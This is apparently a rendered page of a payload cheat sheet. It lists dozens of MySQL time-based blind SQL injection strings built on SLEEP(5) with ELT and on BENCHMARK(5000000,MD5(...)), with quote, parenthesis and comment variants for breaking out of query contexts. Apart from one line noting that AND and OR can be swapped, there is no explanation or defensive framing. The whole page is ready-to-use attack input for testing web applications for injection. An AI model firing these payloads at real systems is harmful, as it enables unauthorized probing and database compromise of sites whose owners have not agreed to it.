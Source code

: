 +(SELECT 1337 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5)))+
)) AS 1337 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
) AS 1337 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
` WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
`) WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
1`=`1` AND ELT(1337=1337,SLEEP(5)) AND `1`=`1
]-(SELECT 0 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5)))|[1
%' AND ELT(1337=1337,SLEEP(5)) AND '1337%'='1337
' AND ELT(1337=1337,SLEEP(5)) AND '1337' LIKE '1337
") AND ELT(1337=1337,SLEEP(5)) AND ("1337"="1337
")) AND ELT(1337=1337,SLEEP(5)) AND (("1337"="1337
"))) AND ELT(1337=1337,SLEEP(5)) AND ((("1337"="1337
" AND ELT(1337=1337,SLEEP(5)) AND "1337"="1337
") AND ELT(1337=1337,SLEEP(5)) AND ("1337" LIKE "1337
")) AND ELT(1337=1337,SLEEP(5)) AND (("1337" LIKE "1337
"))) AND ELT(1337=1337,SLEEP(5)) AND ((("1337" LIKE "1337
" AND ELT(1337=1337,SLEEP(5)) AND "1337" LIKE "1337
' AND ELT(1337=1337,SLEEP(5)) OR '1337'='FMTE
') WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
") WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
' WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
" WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
'||(SELECT 0x4c454f67 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5)))||'
'||(SELECT 0x727a5277 FROM DUAL WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5)))||'
'+(SELECT 0x4b6b486c WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5)))+'
||(SELECT 0x57556971 FROM DUAL WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5)))||
||(SELECT 0x67664847 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5)))||
+(SELECT 0x74764164 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5)))+
')) AS 1337 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
")) AS 1337 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
') AS 1337 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
") AS 1337 WHERE 1337=1337 AND ELT(1337=1337,SLEEP(5))-- 1337
<strong>BENCHMARK:You can replace AND / OR' AND 1337=BENCHMARK(5000000,MD5(0x774c5341))--
</strong>' AND 1337=BENCHMARK(5000000,MD5(0x774c5341))-- 1337
" AND 1337=BENCHMARK(5000000,MD5(0x774c5341))-- 1337
') AND =BENCHMARK(5000000,MD5(0x774c5341))--
') AND 1337=BENCHMARK(5000000,MD5(0x774c5341))-- 1337
') AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND ('1337'='1337
')) AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND (('1337'='1337
'))) AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND ((('1337'='1337
' AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND '1337'='1337
') AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND ('1337' LIKE '1337
')) AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND (('1337' LIKE '1337
'))) AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND ((('1337' LIKE '1337
%' AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND '1337%'='1337
' AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND '1337' LIKE '1337
") AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND ("1337"="1337
")) AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND (("1337"="1337
"))) AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND ((("1337"="1337
" AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND "1337"="1337
") AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND ("1337" LIKE "1337
")) AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND (("1337" LIKE "1337
"))) AND 1337=BENCHMARK(5000000,MD5(0x774c5341)) AND ((("1337" LIKE "1337
" AND 1337=BENCHMARK(5000000,MD5(0x576e7a57)) AND "1337" LIKE "1337
' AND 1337=BENCHMARK(5000000,MD5(0x576e7a57)) AND '1337'='1337
</code></pre>
